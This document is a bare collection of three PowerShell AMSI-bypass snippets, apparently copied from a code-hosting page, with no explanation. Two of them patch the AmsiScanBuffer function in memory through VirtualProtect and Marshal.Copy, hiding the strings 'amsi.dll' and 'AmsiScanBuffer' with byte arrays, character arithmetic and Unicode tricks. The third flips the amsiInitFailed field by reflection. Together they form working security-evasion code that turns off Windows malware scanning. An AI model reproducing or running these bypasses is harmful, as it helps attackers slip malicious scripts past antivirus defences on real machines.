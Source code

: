 $c = ‘t’
$Win32 = @”
using System.Runtime.InteropServices;
using System;
public class Win32 {
[DllImport(“kernel32”)]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
[DllImport(“kernel32”)]
public static extern IntPtr LoadLibrary(string name);
[DllImport(“kernel32”)]
public static extern bool VirtualProtec$c(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
“@
Add-Type $Win32
$nowhere = [Byte[]](0x61, 0x6d, 0x73, 0x69, 0x2e, 0x64, 0x6c, 0x6c)
$LoadLibrary = [Win32]::LoadLibrary([System.Text.Encoding]::ASCII.GetString($nowhere))
$somewhere = [Byte[]] (0x41, 0x6d, 0x73, 0x69, 0x53, 0x63, 0x61, 0x6e, 0x42, 0x75, 0x66, 0x66, 0x65, 0x72)
$notaddress = [Win32]::GetProcAddress($LoadLibrary, [System.Text.Encoding]::ASCII.GetString($somewhere))
$notp = 0
$replace = ‘VirtualProtec’
[Win32]::(‘{0}{1}’ -f $replace,$c)($notaddress, [uint32]5, 0x40, [ref]$notp)
$stopitplease = [Byte[]] (0xB8, 0x57, 0x00, 0x17, 0x20, 0x35, 0x8A, 0x53, 0x34, 0x1D, 0x05, 0x7A, 0xAC, 0xE3, 0x42, 0xC3)
$marshalClass = [System.Runtime.InteropServices.Marshal]
$marshalClass::Copy($stopitplease, 0, $notaddress, $stopitplease.Length)

==============================================================================================================================

$kizax = @"
using System;
using System.Runtime.InteropServices;
public class kizax {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr yjnqcb, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $kizax

$rykogwu = [kizax]::LoadLibrary("$(('àm'+'sî'+'.d'+'ll').noRMaLiZe([CHAr]([BYte]0x46)+[ChAr]([BYTE]0x6f)+[chAR]([BYTe]0x72)+[Char](109*8/8)+[chaR](68*31/31)) -replace [cHaR](92+76-76)+[cHaR]([byTE]0x70)+[cHar](107+16)+[chAr]([BYtE]0x4d)+[char]([BytE]0x6e)+[cHAr]([byTe]0x7d))")
$iyslea = [kizax]::GetProcAddress($rykogwu, "$(('ÃmsîScân'+'Buffer').normaliZe([ChAr]([bYTe]0x46)+[CHaR]([byte]0x6f)+[chAR]([BYTE]0x72)+[cHar]([byte]0x6d)+[chaR]([byTe]0x44)) -replace [char]([bYTe]0x5c)+[char](112*56/56)+[CHAR](123)+[CHAr](75+2)+[char](94+16)+[ChAR]([ByTE]0x7d))")
$p = 0
[kizax]::VirtualProtect($iyslea, [uint32]5, 0x40, [ref]$p)
$aapt = "0xB8"
$qkwf = "0x57"
$snxi = "0x00"
$wnan = "0x07"
$nchj = "0x80"
$yywa = "0xC3"
$estof = [Byte[]] ($aapt,$qkwf,$snxi,$wnan,+$nchj,+$yywa)
[System.Runtime.InteropServices.Marshal]::Copy($estof, 0, $iyslea, 6)

==============================================================================================================================

$teste = [Ref].Assembly.GetType('System.Management.Automation.Am'+'siUtils').GetField('am'+'siInitFailed','NonPublic,Static')
$teste.SetValue($null,$true)
